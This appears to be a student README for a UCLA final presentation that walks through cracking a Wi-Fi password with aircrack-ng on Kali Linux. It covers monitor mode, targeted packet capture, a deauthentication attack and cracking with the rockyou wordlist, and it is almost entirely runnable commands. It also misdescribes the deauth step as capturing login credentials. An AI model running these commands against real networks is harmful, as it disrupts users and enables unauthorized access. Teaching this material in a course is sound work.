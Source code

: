 # UCLA Final Presentation: Aircrack-ng on Kali Linux
Verify airmon-ng has no issues:
<pre><code>sudo airmon-ng check</code></pre>

Determine name of wireless adapter:
<pre><code>sudo iwconfig</code></pre>

Enable monitor mode in the Wi-Fi card:
<pre><code>sudo airmon-ng start wlan0</code></pre>
  - Do not close terminal.

Capture the network packets:
<pre><code>sudo airodump-ng wlan0mon</code></pre>

Identify target network an note BSSID (MAC address) and channel
<pre><code>sudo airodump-ng --bssid (BSSID) -c (channel) -w (capture file output name) wlan0mon</code></pre>

While packets are capturing, open a seperate terminal and run the command:
<pre><code>sudo aireplay-ng --deauth 100 -a (BSSID) wlan0mon</code></pre>
  - Sends deauthentification packets to the target netowrk and forces clients to reconnect and sent their login credentials

Stop catpure with "ctrl + c"

Unzip rockyou.txt and create path to wordlist:

Locate rockyou.txt in Kali Linux:
<pre><code>cd /usr/share/wordlists</code></pre>
<pre><code>ls</code></pre>
It will present as: <pre><code>rockyou.txt.gz</code></pre>
Unzip rockyou.txt:
<pre><code>sudo gunzip rockyou.txt.gz</code></pre>

Nano into rockyou.txt and add designated password

Save document

Crack password:
<pre><code>sudo aircrack-ng -b (BSSID) -w (path to wordlist) (captire file name).cap</code></pre>
